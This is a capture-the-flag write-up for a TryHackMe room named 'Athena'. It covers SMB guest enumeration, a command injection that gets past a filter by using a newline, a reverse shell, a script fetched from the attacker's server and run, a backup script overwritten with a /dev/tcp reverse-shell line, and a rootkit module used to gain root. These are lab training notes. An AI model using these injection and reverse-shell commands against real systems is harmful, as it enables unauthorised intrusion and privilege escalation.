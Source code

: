 ```yaml
---
title: Athena
tags:
  - thm
  - medium
---
```


#### Author: AMD

![[static/athena/athena.png]]

This is a writeup for <b>Athena</b> room.

My target IP: 10.10.231.238

-----------------------------------------------------------------------------------
<b>NMAP</b>

Lets scan out target.

![[static/athena/nmap.png]]

-----------------------------------------------------------------------------------
<b>RESEARCH</b>

Let's see what unusual ports used for.

![[static/athena/research.png]]

-----------------------------------------------------------------------------------
<b>SMB CLIENT CONNECTION</b>

Let's list SMB shares that are accessible as guest. (-N)

![[static/athena/smbclient_list.png]]

![[static/athena/smbclient_ipc.png]]

![[static/athena/smbclient_public.png]]

We are in.

-----------------------------------------------------------------------------------
<b>SMB CLIENT</b>

Let's look around.

![[static/athena/smbclient_ls.png]]

Run "vim msg_for_administrator.txt"

![[static/athena/msg_for_administrator.png]]

-----------------------------------------------------------------------------------
<b>ROUTER PANEL</b>

![[static/athena/router_panel.png]]

Let's try whoami.

![[static/athena/whoami.png]]

![[static/athena/whoami_result.png]]

-----------------------------------------------------------------------------------
<b>INJECTION</b>

Input "dummy", catch the request with Burp Suite and send to repeater.

All attempts ends up with "Attempt hacking!" or "Failed to execute ping." if they contain characters like ';' '|' '&' etc. But '\n' (%0a) works

![[static/athena/id.png]]

![[static/athena/passwd.png]]

-----------------------------------------------------------------------------------
<b>REVERSE SHELL</b>

run "nc -lvnp 4444"

![[static/athena/reverse_shell_burp.png]]

![[static/athena/conn_received.png]]

We need to connect user athena.

-----------------------------------------------------------------------------------
<b>PRIVILEGE EXCALTION PART 1</b>

run "wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh" to get linpeas.sh on your pc.

run "python3 -m http.server 8080" on your pc to host it.  (Close Burp or change port)

run "wget http://YOUR-IP:8080/linpeas.sh -O /tmp/linpeas.sh"

run "chmod +x /tmp/linpeas.sh" to make it executable

run "/tmp/linpeas.sh"

![[static/athena/backup_sh.png]]

![[static/athena/backup_sh_perms.png]]

-----------------------------------------------------------------------------------
<b>PRIVILEGE EXCALTION PART 2</b>

run "echo 'bash -i >& /dev/tcp/YOUR-IP/9001 0>&1' > /usr/share/backup/backup.sh"

run "nc -lvnp 9001" on your pc,

![[static/athena/user_athena.png]]

-----------------------------------------------------------------------------------
<b>GET USER FLAG</b>

![[static/athena/user_flag.png]]

-----------------------------------------------------------------------------------
<b>USER athena PERMISSION</b>

![[static/athena/user_athena_perm.png]]

-----------------------------------------------------------------------------------
<b>PRIVILEGE EXCALTION PART 3</b>

![[static/athena/venom_ko_perms.png]]

It is readable. Lets get it

![[static/athena/venom_web_server.png]]

![[static/athena/get_venom.png]]

-----------------------------------------------------------------------------------
<b>INSPECT venom.ko</b>

Fire up Ghidra and open venom.ko

Under functions find give_root function.

![[static/athena/give_root.png]]

Other weird funciton is hacked_kill.

![[static/athena/hacked_kill.png]]

![[static/athena/root_call.png]]

If we kill the process 57 (0x39) we can become root.

-----------------------------------------------------------------------------------
<b>PRIVILEGE EXCALTION PART 4</b>

run "sudo /usr/sbin/insmod /mnt/.../secret/venom.ko"

run "kill -57 0"

run "id"

-----------------------------------------------------------------------------------
<b>GET ROOT FLAG</b>

run "cd /root"

run "cat root.txt"

![[static/athena/root_flag.png]]
